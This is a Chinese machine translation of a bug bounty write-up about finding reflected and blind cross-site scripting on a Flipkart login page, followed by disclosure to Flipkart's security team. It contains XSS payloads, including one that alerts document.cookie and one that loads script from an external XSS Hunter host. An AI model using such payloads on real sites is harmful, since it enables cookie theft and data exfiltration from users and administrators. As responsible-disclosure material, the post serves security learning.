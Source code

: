# 我是如何在 Flipkart 上找到 XSS 的

> 原文：<https://infosecwriteups.com/how-i-found-blind-xss-on-flipkart-6b22199f3496?source=collection_archive---------1----------------------->

![](img/570ce85883b50bdb50b929245aab8c38.png)

大家好…
希望你们都过得好。这篇关于 Flipkart 跨站点脚本漏洞的文章。

如果你对 InfoSec 或 dev 感兴趣，你一定听说过跨站点脚本漏洞。OWASP 十大漏洞之一。对于那些不知道 XSS 的人，我会提供一些小信息。

> ***(***[***跨站脚本***](https://owasp.org/www-community/attacks/xss/)***)*** *跨站脚本(XSS)攻击是一种注入的类型，恶意脚本被注入到原本良性的、可信的网站中。当攻击者使用 web 应用程序向不同的最终用户发送恶意代码(通常以浏览器端脚本的形式)时，就会发生 XSS 攻击。*
> 
> *我在搜索一个 bug 赏金程序的时候，偶然发现了* [*Flipkart bug 赏金程序*](https://www.flipkart.com/pages/security) *。在有效提交程序中，Flipkart 将在他们的名人堂中提到 bug 赏金猎人的名字。所以我决定试一试。*

**开始在 Flipkart 上打猎…..**

经过一番调查，我发现了一个与无速率限制相关的问题😍🙌

> *Fri，2020 年 11 月 20 日——向 Flipkart 安全团队报告了该问题。*
> 
> *孙，2020 年 11 月 22 日——收到团队的回复，是一份副本😥*

**失望……**

然后我决定如果我再试一次😎🤏

![](img/1763fd92b10430d70b34b6aad7e68d17.png)

再次在 Flipkart 上开始了我的狩猎之旅。这次我从正确的侦察步骤开始。从子域枚举开始，我遇到了一个 Flipkart 域。这是一个普通的登录表单页面。

我试过和 SQL 注入在这里，但没有结果。然后尝试在 URL 参数上使用正常的 XSS 有效负载。嘿，它工作了🤓🙌。XSS 警报出现了。

![](img/dfc01591dcdb466a87ac79142fbfa138.png)

> ***有效载荷:*** *测试？"></脚本> <脚本>警报(document . cookie)</脚本>*

![](img/ee11e7a5e515a47abad561a9b8523a1d.png)

**XSS 警报弹出**

如果我在这里报告这个问题，影响会很低。所以我们需要增加我们的影响力。

真正的狩猎从这里开始….. [**XSS 猎人**](https://xsshunter.com/)

**什么是 XSS 猎人**

XSS·亨特可以让你发现各种各样的跨站脚本漏洞，包括经常被遗漏的盲目的 XSS。该服务通过托管专门的 XSS 探测器来工作，这些探测器在启动时扫描页面，并将关于易受攻击页面的信息发送到 XSS·亨特服务。

所以这对盲人 XSS 来说是一个非常好的工具。如果 XSS 在客户端被触发，我们可以看到它。所以影响不大。如果它是在内部面板或管理控制面板中触发的，则影响很大。我们可以得到他们的会话标识 cookie 等等。关于 XSS 亨特的一个更好的功能是，当一个有效负载在内部仪表板或任何其他地方执行时，它会给出一个警告电子邮件，并在 XSS 亨特页面上，它会为该特定端点创建概念验证。

我在同一个 URL 参数上使用了一个基本的 used 亨特有效载荷。

**有效载荷:**测试"> <脚本 src = https://lohigowda . XSS . ht></脚本>

嘿嘿嘿😍…我收到了 XSS·亨特发来的一封电子邮件，于是概念验证就诞生了。在这里，我们可以看到触发的 ip、URL 位置和该页面的屏幕截图。

![](img/9fec7406fde56158b95eda69763fcfd3.png)

**XSS 猎人 POC**

所以最后，我完成了臭虫狩猎。所以现在是报道时间。然后我准备了一份干净的报告，提交给了 Flipkart 安全团队。

**报告时间:**

> 【2020 年 12 月 17 日星期四——向安全团队报告
> 
> 【2020 年 12 月 18 日——团队的首次回应
> 
> *2020 年 12 月 28 日-错误被接受*
> 
> *2021 年 1 月 5 日-问题已解决*
> 
> *2021 年 01 月 08 日——在他们的* [*名人堂*](https://www.flipkart.com/pages/security) *中得到承认。*

**名人堂**

![](img/490b9b16317d9afa08254af63b6c21bc.png)

**名人纪念馆**

**感谢阅读！….黑客快乐！**

> *Linkedin:*[*Lohith Gowda M*](https://www.linkedin.com/in/lohigowda/)
> 
> *推特:*[*lohigowda _ in*](https://twitter.com/lohigowda_in)

insta gram:[lohigowda . in](https://www.instagram.com/lohigowda.in/)

> *作品集:*[*https://www.lohigowda.in/*](https://www.lohigowda.in/)